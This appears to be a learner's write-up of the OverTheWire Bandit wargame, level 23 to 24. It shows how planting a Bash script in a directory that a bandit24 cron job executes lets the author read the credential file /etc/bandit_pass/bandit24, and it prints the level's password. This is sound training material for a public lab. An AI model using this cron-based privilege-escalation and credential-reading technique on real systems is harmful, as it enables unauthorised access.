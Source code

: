 # Bandit Level 23 → 24
[Here's the link 😄](https://overthewire.org/wargames/bandit/bandit24.html)
## 📝 **Challenge Description**  
In this level like previous levels, there is a program that's running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d** for the configuration and see what command is being executed.

## 🔍 **What I Initially Tried**  
As usual I went into `/etc/cron.d` to view the **system-wide** cronjobs to see if there's any jobs that dealt with `bandit24`:
```bash
cd /etc/cron.d
behemoth4_cleanup  cronjob_bandit22  cronjob_bandit24  leviathan5_cleanup    otw-tmp-dir
clean_tmp          cronjob_bandit23  e2scrub_all       manpage3_resetpw_job  sysstat
```
I noticed **cronjob_bandit24** so I decided to open it:
```bash
cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```
As per usual the **cronjob** is ran as `bandit24` and it runs after reboot then it continuously runs forever. So I decided to open the script to see what the **cronjob** is doing:
```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
Here's how the script works:
- Since this script runs as the user `bandit24` the variable `myname` will be initialized to the `bandit24`.
- Then the script changes the directory to `/var/spool/bandit24/foo` and prints out `Executing and deleting all scripts in /var/spool/$myname/foo`. This basically sums up what the script does, it executes and deletes all scripts in `var/spool/bandit24/foo` however if the owner of one of the files is `bandit23`, then it'll run that script for 60 seconds then remove it after it is done executing.

Based on this script my assumption was that I had to create my own **Bash** script that would allow me to read the password for `bandit24` and save it in a temporary file. Then I could copy that file to the specified directory and since the **cronjob** is running as `bandit24`, my script would have the permissions (as user `bandit24`) to read the password and write to the password file thus exploiting the **cronjob**. Having a copy of the script and password file in a temporary directory would be necessary just in case if I messed up and had to start again. This is what I did:
```bash
mktemp -d
/tmp/tmp.2Kh9HXGaH8

vi script.sh
touch password.txt
```

## ✔️ What Worked
First I had to create the script that would allow me to read `bandit24`'s password and save the output to `password.txt`:
```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/tmp.2Kh9HXGaH8/password.txt
```
From the looks of it, it's a very simple Bash script however I felt proud since I never understood Bash and now I am using it solve problems. Moving on, I made sure the permissions for both files were set up and for the directory:
```bash
chmod 777 /tmp/tmp.2Kh9HXGaH8
chmod 777 password.txt
chmod 777 script.sh
```
Quick note:
- Now looking back having the permissions set up to **777** is a bad practice since anyone on the system can access the directories and all of the files within them. I only did this just to save some time but moving foward I'll be making sure I set up appropriate permissions as good practice. 

Then I copied the script (while being in the tmp directory) to the target directory `/var/spool/bandit24/foo` and waited about a minute:
```bash
cp script.sh /var/spool/bandit24/foo
```

After a minute I went back into the temporary directory and opened `password.txt` to see if the password was saved in it:
```bash
cd /tmp/tmp.2Kh9HXGaH8
cat password.txt
```

The password for the next level was displayed on the screen:
`gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

## 🧠 Key Learnings
- Wrote a basic Bash script to exploit a **cronjob** to help us get the password for the next level.
- Learned how to manage permissions for files and directories (safely and unsafely).
- Learned how to read and understand if statements in Bash.



## 🔐 Next Step
Now let's move onto **level 24**. 

➡️ [Continue to Level 24 →](https://github.com/aminuzz/Bandit-CTF-Journey/blob/main/level%2024.md)

